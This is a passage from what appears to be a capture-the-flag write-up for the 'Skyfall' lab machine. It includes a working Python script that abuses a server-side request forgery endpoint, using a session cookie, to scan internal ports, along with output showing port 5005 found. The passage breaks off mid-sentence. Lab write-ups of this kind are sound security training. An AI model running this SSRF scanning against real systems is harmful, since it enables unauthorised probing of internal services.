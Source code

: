 ```python
import asyncio
import aiohttp

URL = 'http://demo.skyfall.htb/fetch'
COOKIES = {'session': '.eJwljkFqBDEMBP_icw62ZcnSfmaQ7BYJgQRmdk8hf89AjtVQTf2UI09c7-XxPF94K8fHLo-SzjkjPJZpj-FQJVoCm02o9eCWvWrU5bBB6MaLyEjZBg9imsKB1M3coM1qVFbu0ywAR9jU-wKNrW7eNKSPvBWv0mWILS13yOvC-V_TblzXmcfz-xNf9yC5KN1zSXQzqrERM33AM2wbGaZDnMrvH5PUP4E.ZnMYBA.5hVw-AC8sMXkr3SNpsf2X54vNIA'}

async def fetch(session, port):
    async with session.post(URL, cookies=COOKIES, data={'url': f'http://0:{port}'}) as resp:
        return await resp.text()

async def main():
    start = 1
    limit = 100  
    async with aiohttp.ClientSession() as session:
        while start < 65000:
            tasks = [
                fetch(session, port)
                for port in range(start, start + limit)
            ]
            pages = await asyncio.gather(*tasks)
            for i, page in enumerate(pages):
                port = start + i
                print(f'\rTrying Port: {port}', end='')
                if 'Max retries exceeded with url' in page:
                    continue

                print(f'\nPort Valid: {port}!')

            start += limit

if __name__ == '__main__':
    asyncio.run(main())
```

The only valid port seems to be **5005** up to 42600 ports.
```bash
└─$ py ssrf.py
Trying Port: 5005
Port Valid: 5005!
Trying Port: 42600
```

The port seems to be current app port, which is both good and bad. We have few pages with restricted access and we could view them using ssrf.

Trying to get internal page gives error:
